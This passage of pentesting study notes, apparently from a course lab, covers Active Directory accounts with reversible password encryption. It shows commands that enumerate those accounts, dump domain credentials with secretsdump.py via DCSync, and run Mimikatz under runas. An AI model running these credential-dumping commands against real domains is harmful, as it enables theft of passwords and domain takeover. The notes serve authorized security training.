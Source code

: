 ![](img/reversible.png)

When this option is set on a user account, the passwords are stored using RC4 encryption, the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.

Enumerate accounts with reversible Encryption Password Storage Set with Active Directive cmdlet:

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

Enumerate accounts with reversible Encryption Password Storage Set with PowerView:

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

To decrypt it we can use Impacket’s secretsdump.py:

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

#### Mimikatz

Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
runas /netonly /user:$domain\$userSamAccountName powershell
# Example:
# runas /netonly /user:INLANEFREIGHT\adunn powershell
```
